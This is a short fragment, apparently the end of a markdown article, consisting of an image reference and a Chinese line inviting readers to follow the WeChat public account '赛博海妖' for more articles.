

大家可以关注我们微信公众号：赛博海妖，后续会更新更多文章
